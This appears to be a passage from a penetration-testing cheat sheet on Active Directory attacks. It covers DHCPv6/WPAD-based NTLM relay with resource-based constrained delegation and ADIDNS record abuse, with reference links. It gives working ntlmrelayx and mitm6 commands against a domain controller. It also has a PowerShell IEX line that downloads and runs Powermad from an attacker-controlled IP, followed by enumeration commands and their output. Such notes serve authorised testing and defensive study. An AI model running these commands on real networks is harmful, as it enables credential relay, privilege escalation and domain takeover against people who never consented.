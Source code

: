 
#### DHCPv6 + WPAD + NTLM Relay + RBCD

* [https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)
* [https://chryzsh.github.io/relaying-delegation/](https://chryzsh.github.io/relaying-delegation/)
* [https://habr.com/ru/company/jetinfosystems/blog/449278/](https://habr.com/ru/company/jetinfosystems/blog/449278/)
* [https://www.exploit-db.com/docs/48282](https://www.exploit-db.com/docs/48282)
* [[PDF] From Zero Credential to Full Domain Compromise (Haboob Team)](https://drive.google.com/file/d/1htCGIt1Wcg53zCSGnRk4wfcKOk5A_YDP/view?usp=sharing)

```
$ sudo /usr/local/bin/ntlmrelayx.py -t ldaps://DC01.megacorp.local --delegate-access --no-smb-server -wh attacker-wpad --no-da --no-acl --no-validate-privs [-debug]
$ sudo mitm6 -i eth0 -d megacorp.local --ignore-nofqdn
```




## ADIDNS Abuse

* [https://blog.netspi.com/exploiting-adidns/](https://blog.netspi.com/exploiting-adidns/)
* [https://blog.netspi.com/adidns-revisited/](https://blog.netspi.com/adidns-revisited/)
* [https://www.gosecure.net/blog/2019/02/20/abusing-unsafe-defaults-in-active-directory/](https://www.gosecure.net/blog/2019/02/20/abusing-unsafe-defaults-in-active-directory/)

0\. Load tools:

```
PS > IEX(New-Object Net.WebClient).DownloadString("http://10.10.13.37/powermad.ps1")
```

1\. Check if you are able to modify (add) AD DNS names:

```
PS > Get-ADIDNSZone -Credential $cred -Verbose
DC=megacorp.local,CN=MicrosoftDNS,DC=DomainDnsZones,DC=megacorp,DC=local
DC=RootDNSServers,CN=MicrosoftDNS,DC=DomainDnsZones,DC=megacorp,DC=local
DC=_msdcs.megacorp.local,CN=MicrosoftDNS,DC=ForestDnsZones,DC=megacorp,DC=local
DC=RootDNSServers,CN=MicrosoftDNS,CN=System,DC=megacorp,DC=local

PS > Get-ADIDNSPermission -Credential $cred -Verbose | ? {$_.Principal -eq 'NT AUTHORITY\Authenticated Users'}
Principal             : NT AUTHORITY\Authenticated Users
IdentityReference     : S-1-5-11
ActiveDirectoryRights : CreateChild
InheritanceType       : None
ObjectType            : 00000000-0000-0000-0000-000000000000
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : None
AccessControlType     : Allow
IsInherited           : False
InheritanceFlags      : None
PropagationFlags      : None
```

